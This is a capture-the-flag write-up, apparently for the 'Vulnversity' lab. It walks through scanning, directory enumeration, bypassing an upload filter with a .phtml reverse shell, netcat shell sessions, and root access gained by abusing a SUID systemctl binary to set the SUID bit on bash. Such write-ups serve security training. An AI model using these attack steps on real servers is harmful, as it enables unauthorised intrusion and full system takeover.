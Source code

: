 # Vulnversity

## Reconnaissance

Scan the box, how many ports are open? 6

```
nmap -sV -n 10.10.123.163
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-17 13:21 CDT
Nmap scan report for 10.10.123.163
Host is up (0.11s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.18 seconds
```

What version of the squid proxy is running on the machine?

3.5.12

How many ports will nmap scan if the flag -p-400 was used?

400

Using the nmap flag -n what will it not resolve?

DNS

What is the most likely operating system this machine is running?

Ubuntu

What port is the web server running on?

3333

## Locating directories using GoBuster

What is the directory that has an upload form page? http://10.10.123.163/internal/

```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.123.163:3333
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.123.163:3333
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/04/17 13:34:03 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 322] [--> http://10.10.123.163:3333/images/]
/css                  (Status: 301) [Size: 319] [--> http://10.10.123.163:3333/css/]   
/js                   (Status: 301) [Size: 318] [--> http://10.10.123.163:3333/js/]    
/fonts                (Status: 301) [Size: 321] [--> http://10.10.123.163:3333/fonts/]
/internal             (Status: 301) [Size: 324] [--> http://10.10.123.163:3333/internal/]
```

### Compromise the server

Try upload a few file types to the server, what common extension seems to be blocked?

.php

```
nano phpext.txt

GNU nano 5.4                           
phpext.txt                                             
.php
.php3
.php4
.php5
.phtml

cat phpext.txt
.php
.php3
.php4
.php5
.phtml
```

Run this attack, what extension is allowed? .phtml


https://github.com/regtay/Vulnversity/blob/main/Images/Burpsuite%20View%20.png

https://github.com/regtay/Vulnversity/blob/main/Images/Rervereshell%20upload.png

https://github.com/regtay/Vulnversity/blob/main/Images/Upload%20.png


What is the name of the user who manages the webserver? bill

What is the user flag? 8bd7992fbe8a6a----------04cfcedb



```
nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.9.239.22] from (UNKNOWN) [10.10.123.163] 46752
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 16:34:23 up  1:59,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ ls /home
bill
$ ls /home/bill
user.txt
$ cat /home/bill/user.txt
8bd7992fbe8a6a----------04cfcedb
$
```

### Privilege Escalation

On the system, search for all SUID files. What file stands out?
```
$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/at
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/squid/pinger
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/bin/su
/bin/ntfs-3g
/bin/mount
/bin/ping6
/bin/umount
/bin/systemctl
/bin/bash
/bin/ping
/bin/fusermount
/tmp/systemctl
/sbin/mount.cifs
```

```
nc -lvp 9001
listening on [any] 9001 ...
10.10.246.53: inverse host lookup failed: Unknown host
connect to [10.9.239.22] from (UNKNOWN) [10.10.246.53] 41736
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 13:10:29 up  1:02,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python -c "import pty; pty.spawn('/bin/bash')"
www-data@vulnuniversity:/$ TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
TF=$(mktemp).service
www-data@vulnuniversity:/$ echo '[Service]
 Type=oneshot
 ExecStart=/bin/sh -c "chmod +s /bin/bash"
 [Install]
 WantedBy=multi-user.target' > $TF
www-data@vulnuniversity:/$ /bin/systemctl link $TF
Created symlink from /etc/systemd/system/tmp.eoRJBKjagh.service to /tmp/tmp.eoRJBKjagh.service.
www-data@vulnuniversity:/$ /bin/systemctl enable --now $TF
Created symlink from /etc/systemd/system/multi-user.target.wants/tmp.eoRJBKjagh.service to /tmp/tmp.eoRJBKjagh.service.
www-data@vulnuniversity:/$ cd /root
cd /root
bash: cd: /root: Permission denied
www-data@vulnuniversity:/$ /bin/bash/bin/bash
bash-4.3$ cd root
cd root
bash: cd: root: Permission denied
bash-4.3$ exit
www-data@vulnuniversity:/$ /bin/bash -p
/bin/bash -p
bash-4.3# cd /root
cd /root
bash-4.3# ls
ls
root.txt
bash-4.3# cat root
cat root
cat: root: No such file or directory
bash-4.3# cat root.txt  
cat root.txt
a58ff8579f0a92----------966c7fd5
bash-4.3#
```
